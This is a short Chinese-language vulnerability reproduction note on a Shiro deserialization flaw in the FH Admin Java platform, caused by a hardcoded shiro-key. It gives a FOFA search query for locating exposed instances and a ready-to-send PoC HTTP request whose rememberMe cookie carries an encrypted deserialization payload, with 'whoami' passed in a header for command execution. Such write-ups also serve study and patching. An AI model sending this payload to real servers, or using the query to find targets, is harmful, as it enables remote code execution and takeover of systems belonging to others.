 
# FH Admin Shiro 反序列化漏洞复现

### 0x01 产品简介

  FH Admin 是一款 java [快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)。

### 0x02 漏洞概述

 FH Admin CMS 存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：app="FH-Admin"

![](assets/1701669943-f4bf24db0b200598f9f4b064a7f92e36.png)

### 0x04 漏洞复现 

PoC

```http
GET /appSysUser/registerSysUser.do HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
X-Token-Data: whoami
Cookie: rememberMe=RjI4NWNFQzBDZTVGNWNBM6ByNoG5jvpzbQqTkz2zP8GLkE05HSQI3cfp4VAgaPDcrRrjkpJu9jMhqPwCVC7PctiZQKqpVMs1MpWDU+QNSulwceEdncBKO8H/3euOC5R6IBRFUreexKBsk+q2p7+J2TyahI2qYdizpzKnXhigkLx8wSmLCPHjJN/Mnhd3mepbIPPthxHC3BHq5+hda3bKpoEr4dv2jKzCJj3h+8skALnTGmbUyoWmobwsTLoBkI6G/MsFi3oiXxzzc+kE
```
